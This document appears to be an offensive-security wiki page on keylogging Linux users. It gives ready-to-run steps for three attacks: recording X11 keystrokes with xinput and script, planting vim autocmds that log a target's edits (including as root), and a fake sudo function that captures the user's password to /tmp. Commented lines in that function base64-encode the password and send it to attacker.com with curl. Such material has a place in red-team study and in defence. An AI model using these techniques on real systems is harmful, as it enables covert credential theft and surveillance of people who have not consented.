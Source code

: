# Keylogging

## 01 - `script`

Run a multiplexer terminal program to leave it in the background.

```
$ screen -S keylogger

$ export DISPLAY=:0.0

$ export | grep -i display
```

Exporting the keyboard mapping will show the keybindings that can be translated to actual keystrokes.

```
$ xmodmap -pke > xmodmap-pke.txt

$ head -n20 xmodmap-pke.txt
```

Find the virtual core keyboard to record keystrokes then detach the session to leave it in the background with (`CTRL+D`).

```
$ xinput list

$ script -c "xinput test <X_id>" -a xinput-keylogger.log
```

While it's still running in the background use `xkeyscan` ( a python script is included in the references below) to convert the decimal base 10 values to printable ASCII characters.

```
$ python xkeyscan.py xinput-keylogger.log
```

## 02 - `vim`

### 2.1 - Common File Destinations

```
$HOME/.vimrc
$HOME/.vim/plugin/settings.vim
```

### 2.2 - Vim scripts for logging keystrokes

Normal user

```
:autocmd BufWritePost * :silent :w! >> /tmp/vim-keystrokes.txt
```

Under elevated user context when the user is running as `sudo`.

```
:if $USER == "root"
:autocmd BufWritePost * :silent :w! >> /tmp/vim-keystrokes.txt
:endif
```

### 2.3 - Insert keylogging configuration

Gather timestamps and backup the config resource file. Also try to improvise by instead of getting rid of the rest of the vim config content's. Modify it to ensure it contains no syntax errors. Then wait for the target when he interacts with VIM.

```
$ stat ~/.vimrc
$ cp ~/.vimrc /tmp/.vimrc.bak
$ echo "" > ~/.vimrc
$ cat ~/.vimrc
:autocmd BufWritePost * :silent :w! >> /tmp/vim-keystrokes.txt
```

## 03 - `sudo`

```
$ type sudo
sudo is /usr/bin/sudo
```

```bash
function sudo () {
  # A "realsudo" variable is created. It calls the `which` command to locate
  # the path to the real sudo binary. This is used later in the function to
  # execute the target's desired command.
  realsudo="$(which sudo)"

  # The `read` command will prompt (`-p`) the target with a convincing password
  # request. The `-s` argument hides the input password, just as the real
  # sudo command would. The target password is then set in the "inputPasswd"
  # variable.
  read -s -p "[sudo] password for $USER: " inputPasswd

  # There are two `printf` commands here, separated by a semicolon.
  # The first simply prints a new line in the terminal, as the real sudo
  # does. The second writes the target's username and password to a
  # file called "hackedPasswd.txt" in the /tmp directory.
  printf "\n"; printf '%s\n' "$USER : $inputPasswd" >/tmp/hackedPasswd.txt

  # As an alternative to writing the password to the /tmp directory,
  # it can be exfiltrated to the attacker's server. Uncomment the below
  # "encoded" and "curl" lines to enable this function. The password
  # is encoded with `base64` to make it easier to transmit in the URL.
  # encoded=$(printf '%s' "$inputPasswd" | base64) >/dev/null 2>&1
  # curl -s "http://attacker.com/$USER:$encoded" >/dev/null 2>&1

  # The `-S` option allows users to input their sudo password using the command
  # line. This is used to run an arbitrary `exit` command (`-c`) as the root
  # user (`-u`) to unlock the sudo timeout function. This command and its
  # output are hidden (/dev/null) from the target. It's only here to allow
  # sudo usage for future commands.
  # For more on sudo timeouts and /dev/null, see:
  # https://itsfoss.com/change-sudo-password-timeout-ubuntu/
  # https://stackoverflow.com/questions/10508843/what-is-dev-null-21
  $realsudo -S <<< "$inputPasswd" -u root bash -c "exit" >/dev/null 2>&1

  # With the sudo timeout engaged, privileged commands can be run without
  # prompting the user for a password. This line will execute the target's
  # desired command.
  $realsudo "${@:1}"
}

export -f /usr/bin/sudo sudo
```

```
$ type sudo
sudo is a function
..[omitted]..
```

---
## References

### Backlinks

- [[Screen]]

### Github

- [porterhau5: xkeyscan](https://github.com/porterhau5/xkeyscan)

### Red Hat

- [Red Hat: Record your terminal with script and scriptreplay](https://www.redhat.com/sysadmin/record-terminal-script-scriptreplay )

### porterhau5

- [porterhau5: Using xkeyscan to Parse an X-Based Linux Keylogger](https://porterhau5.com/blog/xkeyscan-parse-linux-keylogger/)

- [porterhau5: Natively Keylogging NIX Systems](http://legacy.popped.io/2016/06/natively-keylogging-nix-systems.html)

### Null Byte

- [Null Byte: Steal Ubuntu & MacOS Sudo Passwords Without Any Cracking](https://null-byte.wonderhowto.com/how-to/steal-ubuntu-macos-sudo-passwords-without-any-cracking-0194190/)

### Und3rf10w

- [Und3rf10w: Tales from the Terminal - Silly Sudo Backdoors](https://und3rf10w.github.io/posts/2022/01/07/sudodoor.html)